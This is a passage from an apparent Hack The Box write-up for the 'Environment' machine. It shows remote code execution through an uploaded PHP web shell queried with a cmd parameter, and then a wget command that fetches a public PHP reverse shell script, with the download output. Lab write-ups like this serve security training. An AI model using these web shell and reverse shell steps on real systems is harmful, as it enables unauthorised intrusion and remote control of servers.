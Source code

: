 This enabled us to achieve `Remote Code Execution (RCE)`.

- [http://environment.htb/storage/files/shell.php?cmd=id](http://environment.htb/storage/files/shell.php?cmd=id)

![](images/2025-05-04_11-34_80_webshell_rce.png)

### Reverse Shell

To get a `reverse shell` on the box I used the `php_reverse_shell.php` by `Ivan Sincek` (great guy, shout-out to this legend!).

- [https://raw.githubusercontent.com/ivan-sincek/php-reverse-shell/refs/heads/master/src/reverse/php_reverse_shell.php](https://raw.githubusercontent.com/ivan-sincek/php-reverse-shell/refs/heads/master/src/reverse/php_reverse_shell.php)

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Environment/files]
└─$ wget https://raw.githubusercontent.com/ivan-sincek/php-reverse-shell/refs/heads/master/src/reverse/php_reverse_shell.php
--2025-05-04 11:38:20--  https://raw.githubusercontent.com/ivan-sincek/php-reverse-shell/refs/heads/master/src/reverse/php_reverse_shell.php
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.110.133, 185.199.111.133, 185.199.108.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.110.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 9403 (9.2K) [text/plain]
Saving to: ‘php_reverse_shell.php’

php_reverse_shell.php                                      100%[========================================================================================================================================>]   9.18K  --.-KB/s    in 0.004s  

2025-05-04 11:38:20 (2.46 MB/s) - ‘php_reverse_shell.php’ saved [9403/9403]
```
